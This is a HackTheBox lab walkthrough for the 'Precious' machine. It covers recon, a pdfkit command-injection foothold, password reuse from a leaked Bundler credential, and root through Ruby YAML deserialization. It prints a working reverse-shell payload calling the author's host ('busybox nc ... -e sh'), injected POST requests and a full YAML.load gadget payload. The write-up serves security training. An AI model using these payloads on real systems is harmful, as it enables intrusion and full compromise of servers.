

---
tags:
  - hack
  - linux
---
# HackTheBox: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE



I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
